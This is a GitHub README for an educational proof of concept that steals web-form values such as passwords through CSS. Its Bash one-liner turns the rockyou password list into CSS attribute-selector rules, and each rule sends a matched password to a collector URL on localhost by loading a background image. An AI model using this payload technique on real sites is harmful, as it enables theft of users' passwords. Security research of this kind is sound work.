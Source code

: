 # CSS Dictionary "Attack"

Example on how to steal information with CSS from web forms due to poor code quality or other vulnerabilities.

Attack is only possible under very specific conditions. First, the server must echo targeted parameter's value back to the web form. Second, you need to find a way to link your own CSS file or to modify an existing one.

Even then, it is hard to carry out this type of attack due to a large dictionary file size and high RAM consumption.

Tested on XAMPP for Windows v7.3.7 (64 bit) with Chrome v75.0.3770.142 (64-bit) and Firefox v68.0.1 (64-bit).

Made for educational purposes. I hope it will help!

## How to Run

Import ['\\db\\css_dictionary.sql'](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/db/css_dictionary.sql) to your database server.

Copy all the content from ['\\src\\'](https://github.com/ivan-sincek/css-dictionary-attack/tree/master/src) to your server's web root directory (e.g. to '\\xampp\\htdocs\\' on XAMPP).

Change the database settings inside ['\\src\\api\\php\\config.ini'](https://github.com/ivan-sincek/css-dictionary-attack/tree/master/src/api/php/config.ini) as necessary.

Navigate to the website with your preferred web browser.

To transform an already existing dictionary to the CSS dictionary, run the following Bash command (modify it to your need):

```bash
for word in $(cat /root/Desktop/rockyou_1000.txt); do echo "input[name=pwd][value=\"${word}\"]{background-image:url(http://localhost/api/css.php?v=${word})}" >> /root/Desktop/rockyou_1000.css; done
```

**Check an already existing dictionary [here](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/dict) and the CSS dictionary [here](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/src/css/rockyou_1000.css).**

## Images

![CSS Dictionary](https://github.com/ivan-sincek/css-dictionary-attack/blob/master/img/dictionary.jpg)
